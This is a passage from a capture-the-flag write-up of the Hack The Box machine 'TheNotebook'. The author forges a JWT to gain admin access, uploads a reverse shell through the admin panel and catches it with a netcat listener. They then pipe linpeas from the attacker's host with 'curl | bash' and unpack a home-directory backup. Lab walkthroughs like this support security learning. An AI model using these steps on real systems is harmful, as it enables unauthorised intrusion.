 The private key will be used by the victim server to check the validity of the signature.  
We create a `privKey.key ` in locale, copying the private key from *JWT.io*.

We start again the local webserver: `python3 -m http.server 7070`.

We copy the token and paste it in the auth cookie.
>![](imgs/20210505-133454.png)

Refreshing the page we are logged in as **admin**.

>![](imgs/20210505-132951.png)

In the **Admin panel** we can upload a file. We upload our reverse shell and we get foothold.

```bash
$ nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.10.14.22] from (UNKNOWN) [10.10.10.230] 51240
Linux thenotebook 4.15.0-135-generic #139-Ubuntu SMP Mon Jan 18 17:38:24 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
 11:43:52 up  6:35,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami 
www-data
$ 
```

## User

We have a shell under the **www-data** user.

Stabilize the shell: `python3 -c 'import pty; pty.spawn("/bin/bash")'`


Enumeration with linpeas: `curl http://10.10.14.22:7070/linpeas.sh | bash`

meanwhile we also move around in the system.  
The content of `/var` is not standard at all. We should take a deeper look. 

In `/var/backups` there is an interesting file that we can read: `home.tar.gz`. 

We unzip it in the `/var/tmp` directory because we have write permissions there

```bash
www-data@thenotebook:/var/backups$ tar -xvzf home.tar.gz --directory /var/tmp
home/                                                                                                                                                                                                                                      
home/noah/                                                                                                                                                                                                                                 
home/noah/.bash_logout                                                                                                                                                                                                                     
```